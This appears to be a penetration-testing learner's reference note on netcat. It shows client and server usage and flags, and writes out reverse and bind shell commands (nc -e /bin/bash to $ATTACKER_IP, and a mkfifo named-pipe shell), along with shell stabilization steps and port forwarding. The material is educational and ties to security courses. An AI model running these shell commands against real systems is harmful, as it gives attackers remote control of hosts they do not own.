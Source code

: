 # Using “netcat”

The netcat binary is *usually* `nc`, but some systems have it at `ncat` instead.

Note that the `-c` and `-e` flags are considered security risks (for obvious reasons!), and are disabled on some systems.

## Start a Client

```bash
nc $HOST $PORT
```

Some versions of netcat support a -e flag that hooks STDIN and STDOUT of an executable to the established network connection. So something like the following will establish a reverse shell:

```bash
nc -e /bin/bash $HOST $PORT
```

## Start a Server

```bash
nc -l -p $PORT $HOST
```

The $HOST specification here is optional; if left off, nc binds to 0.0.0.0.

Note that nc will exit once the first connection closes.

(According to the nc docs, it looks like `nc -l $HOST $PORT` should also work, but it doesn’t. I think — though I haven’t been able to verify — that what’s happening here is that `-p` specifies the port to *listen* to, while the port following the $HOST specification is the port to *connect* to.)

A netcat server doesn’t have to be used just for reverse shells. For example, you can also use it to catch web requests in conjunction with XSS or SQLi attacks.

## Useful Flags

* `-l` — listen for incoming connections (rather than make an outgoing connection)
* `-v` — verbose
* `-n` — skip DNS resolution (slightly faster, less noisy on the network)
* `-p` — specify the port to listen to
* `-u` — connect using UDP instead of TCP
* `-k` — keep listening even after client disconnects

## Example Attack Patterns

Example reverse shell:

* Attacker: `nc -lvnp $LISTENER_PORT`
* Target: `nc $ATTACKER_IP $LISTENER_PORT -e /bin/bash`

Example bind shell:

* Attacker: `nc $TARGET_IP $LISTENER_PORT`
* Target: `nc -lvnp $LISTENER_PORT -e /bin/bash`

These are almost, but not quite, mirror images of each other.

The `-e` switch isn’t available on many UNIX-like OSes. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p; \
nc -lvnp $LISTENER_PORT < /tmp/p | \
	/bin/sh >/tmp/p 2>&1; \
rm /tmp/p
```

(Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications. See the discussion of msfvenom payloads for a detailed breakdown of this pattern.)

Initial netcat reverse shells (in particular web shells) are non-interactive.

### Shell “Stabilization”

Shell “stabilization” refers to the process of making a remote shell behave like a normal local shell — so, allowing interactive programs to work properly, ensuring that input is not echoed inappropriately, etc. In practice, this generally involves creating a *second* connection from within the “unstable” shell, and then using that (keeping the first connection around just so you can restart the “stabilized” shell if you accidentally exit/kill it).

A common method of stabilizing netcat shells is to use Python:

* Start an instance of bash connected to an actual PTY: `env TERM=xterm python -c 'import pty; pty.spawn("/bin/bash")'`
* Suspend the reverse shell.
* Use `stty raw -echo; fg` to switch to raw keycode transmission (so that things like arrow keys get pushed to our remote shell), turn off terminal echo (to prevent seeing commands twice), and foreground the reverse shell.

Note that the `stty` command can be canceled using `reset` (after closing the reverse shell). Since echo is turned off, typing this won't be visible. Trust the force!

The `rlwrap` package will handle almost all of this for you.

```bash
rlwrap -cAr nc -lvnp $PORT
```

Or just use socat!

NOTE that in *none* of these cases will the reverse shell pick up on your terminal size, so you’ll need to manually specify it using `stty rows` and `stty cols`.

## Port Forwarding

```bash
nc -lvnp $INCOMING_PORT -c "nc $TARGET_IP $TARGET_PORT"
```

## Other Uses

If you just have netcat connect to a service directly, it functions exactly like telnet.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [TryHackMe: CC: Pen Testing](tryhackme-cc-pen-testing.md)
* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Using Metasploit](metasploit.md)
* [Using “socat”](socat.md)
* [XSS (Cross-Site Scripting) Attacks](xss-attacks.md)
* [SQL Injection](sql-injection.md)
* [2022-03-30 ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-03-30-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
* [Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
* [2022-05-09 TryHackMe: Jr. Penetration Tester (Supplements)](../log/2022-05-09-tryhackme-jr-penetration-tester-supplements.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks
<span aria-hidden="true">📅</span> May 10, 2022

